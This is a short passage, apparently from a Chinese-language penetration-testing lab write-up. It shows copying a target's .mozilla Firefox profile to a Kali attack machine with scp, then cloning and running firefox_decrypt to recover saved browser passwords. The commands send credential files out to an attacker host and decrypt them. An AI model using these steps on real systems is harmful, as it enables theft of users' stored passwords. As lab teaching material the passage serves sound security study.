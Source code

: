 先将`.mozilla`目录复制到攻击机`kali`里面

```bash
scp -r .mozilla/  kali@192.168.80.141:/home/kali/tools
```

![image-20230910162451895](./imgs/image-20230910162451895.png)

工具下载

```bash
git  clone https://github.com/unode/firefox_decrypt.git
```

![image-20230910162106452](./imgs/image-20230910162106452.png)

```bash
python firefox_decrypt.py ../../tmp/.mozilla/firefox
```



![image-20230910162714704](./imgs/image-20230910162714704.png)
